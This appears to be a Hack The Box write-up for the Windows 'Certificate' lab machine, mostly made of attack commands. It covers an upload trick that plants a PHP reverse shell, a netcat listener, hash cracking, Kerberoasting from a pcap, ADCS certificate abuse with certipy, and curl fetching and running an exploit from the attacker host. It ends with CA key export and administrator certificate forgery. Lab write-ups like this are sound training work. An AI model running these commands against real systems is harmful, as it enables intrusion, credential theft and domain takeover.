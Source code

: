 # HTB Certificate - Writeup (English)

**Platform:** Windows  
**IP:** 10.10.11.71  
**Difficulty:** Hard  
**Author:** NoSec

---

## Recon

```text
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.0.30)
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: certificate.htb)
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certificate.htb)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: certificate.htb)
3269/tcp open  ssl/ldap
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0
Service Info: Host: DC01; OS: Windows
```

### Clock-skew

- Kerberos requires time sync!
  ```bash
  sudo rdate -n certificate.htb
  ```

## Web - RCE via file upload

You can register on the site, and when clicking "Enroll" on a course, you get this URL:

```
http://certificate.htb/upload.php?s_id=36
```

Only PDF and ZIP files are accepted.  
Used ZIP concatenation trick to include a PHP shell at the end (with valid ZIP structure).

### Steps

1. Create the reverse shell (`shell.php`)

```php
<?php
// php-reverse-shell by pentestmonkey (slimmed down version)
// [code omitted for brevity]
?>
```

2. Create an empty PDF (e.g. `test.pdf`)  
3. Concatenate ZIPs:

```bash
zip head.zip test.pdf
zip -r tail.zip nosechere   # nosechere/shell.php
cat head.zip tail.zip > main.zip
```

4. Upload `main.zip`  
5. Browse the shell:

```
http://certificate.htb/static/uploads/[...]/nosechere/shell.php
```

6. Set up listener:

```bash
nc -lvnp 4444
```

Shell access: `xamppuser`

## Enumeration: DB access

Command:

```cmd
.\mysql.exe -u certificate_webapp_user -p"cert!f!c@teDBPWD" -e "use certificate_webapp_db; select * from users;"  -E
```

Notable user:

- username: `sara.b`
- bcrypt hash: `$2y$04$...`

### Crack hash

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**Password: `Bl******`**

### WinRM access

```bash
evil-winrm -i 10.10.11.71 -u Sara.B -p 'Bl******'
```

> **Note:**  
> HTB patched password change via lion.sk on June 10, 2025 â use alternate method!

## PCAP analysis â Kerberos hash

- File: `WS-01_PktMon.pcap` (Kerberos traffic)
- Contains a TGS-REQ. Can be used for Kerberoasting if SPN is registered.
- Use `Krb5RoastParser`:
>  https://github.com/jalvarezz13/Krb5RoastParser

```bash
python krb5_roast_parser.py WS-01_PktMon.pcap as_req >> hash.txt
```

### Crack with Hashcat

```bash
hashcat -m 19900 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

**Password: `!QA*****`**

---

## Certipy â Getting PFX

### Lion.SK

```bash
certipy req -u 'lion.sk@CERTIFICATE.HTB' -p "\!QA<pass>" -dc-ip '10.10.11.71' -target 'DC01.CERTIFICATE.HTB' -ca 'Certificate-LTD-CA' -template 'Delegated-CRA'
```

### Ryan.K (On-Behalf-Of)

```bash
certipy req -u 'lion.sk@CERTIFICATE.HTB' -p "\!QA<pass>" -dc-ip '10.10.11.71' -target 'DC01.CERTIFICATE.HTB' -ca 'Certificate-LTD-CA' -template 'SignedUser' -pfx 'lion.sk.pfx' -on-behalf-of 'CERTIFICATE\ryan.k'
```

### Extract NTLM hash

```bash
certipy auth -pfx 'ryan.k.pfx' -dc-ip '10.10.11.71'
```

### WinRM:

```bash
evil-winrm -i 10.10.11.71 -u ryan.k -H [ryan.k_hash]
```

## Privilege Escalation

Check privileges:

```powershell
whoami /priv
```

**Found: `SeManageVolumePrivilege`**

### Download/Run exploit

https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public

```bash
curl 10.10.14.8/SeManageVolumeExploit.exe -O SeManageVolumeExploit.exe
.\SeManageVolumeExploit.exe
```

### Test:

```powershell
echo "test" > C:\Windows	est.txt
type C:\Windows	est.txt
```

## Export Certificate Authority cert

```powershell
mkdir /temp
certutil -exportPFX my "Certificate-LTD-CA" C:	emp\ca.pfx
```

Download:

```
download ca.pfx
```

## Forge Admin certificate

```bash
certipy forge -ca-pfx ca.pfx -upn 'administrator@certificate.htb' -out forged_admin.pfx
```

## Get Administrator NTLM hash

```bash
certipy auth -dc-ip '10.10.11.71' -pfx 'forged_admin.pfx' -username 'administrator' -domain 'certificate.htb'
```

## Root / Administrator access

```bash
evil-winrm -i 10.10.11.71 -u administrator -H d80430<hash>
```

You should see:

```
user.txt and root.txt under respective Desktop directories
```

---

## Notes & Takeaways

**What I learned:**

- Modern AD attack chain
- ZIP concatenation trick
- ADCS/PKI abuse
- Kerberoast (from PCAP)
- Shadow Credentials / PrivEsc
- Cert forgery via CA access

**Traps, mistakes, advice**

- Time sync is **mandatory**
- Password change patch applied by HTB on 2025-06-10

## Summary

Certificate is an excellent machine to practice ADCS compromise.  
Highly recommended for anyone interested in modern AD / Red Teaming / Blue Teaming / PKI attacks.  
Feel free to reach out with any questions.